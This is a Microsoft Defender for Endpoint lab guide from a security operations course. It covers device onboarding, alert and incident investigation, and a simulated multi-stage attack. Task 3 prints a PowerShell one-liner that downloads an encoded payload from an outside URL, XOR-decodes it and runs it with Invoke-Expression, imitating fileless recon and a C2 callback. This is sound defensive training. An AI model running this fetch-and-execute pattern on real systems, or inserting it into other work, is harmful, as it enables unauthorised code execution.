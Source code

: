 # Module 2 - Lab 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab objectives
 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated timing: 60 minutes

## Architecture Diagram

  ![Picture 1](../Media/2024-07-23(2).png)
### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and log in as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears on the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. Select **Settings** from the left menu bar, then from the Settings page select **Endpoints**.

1. Select **Onboarding** in the Device Management section and make sure *"Windows 10 and 11"* is selected as an operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the Windows search bar of the WIN1 virtual machine, type **CMD** and choose **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Alerts**.

1. In the **Alerts** pane, select the alert named *Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

1. Under the alert **View Alert Details** tab you can scroll down to the *Incident details* section and select the **Suspicious Powershell command line on one endpoint** link to open the incident.


1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

    ![Picture 1](../Media/2024-07-18.png)


1. Select the toggle **Assign to**  and add your user account (Me) as the owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and Close.

    ![Picture 1](../Media/newcop.png)

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident, the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

  > **Congratulations** on completing the task! Now, it's time to validate it. Here are the steps:
  > - Hit the Validate button for the corresponding task. You can proceed to the next task if you receive a success message.
  > - If not, carefully read the error message and retry the step, following the instructions in the lab guide.
  > - If you need any assistance, please contact us at labs-support@spektrasystems.com. We are available 24/7 to help you out.

  <validation step="91447864-4d24-4dc4-a518-c1ebacf2fb66" />


### Task 3: Simulate an Attack

> **Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Copy and run each line of the script separately in PowerShell.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, view the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Under the *Attack story* tab **Alerts** section (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due to the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain any information about the IP address.


## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab.
